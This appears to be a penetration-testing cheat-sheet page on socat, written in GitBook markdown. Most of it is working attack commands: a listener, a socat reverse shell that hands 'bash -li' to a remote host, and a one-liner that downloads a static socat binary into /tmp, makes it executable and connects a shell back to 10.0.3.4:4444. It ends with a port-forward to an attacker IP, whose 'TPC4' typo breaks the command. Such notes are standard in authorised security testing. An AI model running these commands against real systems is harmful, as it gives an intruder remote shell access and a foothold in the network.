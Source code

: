 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Socat

<pre class="language-bash"><code class="lang-bash"><strong># set up listener
</strong><strong>socat file:'tty',raw,echo=0 tcp-listen:4444
</strong></code></pre>

```bash
# reverse shell command
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<ip>:4444
```

Download and execute `socat`.

{% code overflow="wrap" %}
```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
{% endcode %}

## Port Forwarding

An alternative if SSH is not available and the socat binary can be transferred to the target. The `fork` option creates a new process for each connection received, thus, it is possible to handle multiple connection without closing.

```
socat TPC4-LISTEN:<port-on-target>,fork TCP4:<attacker-IP>:<attacker-port>
```

<figure><img src="../../../.gitbook/assets/socat_port_forward.png" alt=""><figcaption></figcaption></figure>

## Resources

{% tabs %}
{% tab title="Project Page" %}
{% embed url="http://www.dest-unreach.org/socat/" %}
{% endtab %}

{% tab title="Binaries" %}
{% embed url="https://github.com/andrew-d/static-binaries" %}
{% endtab %}
{% endtabs %}

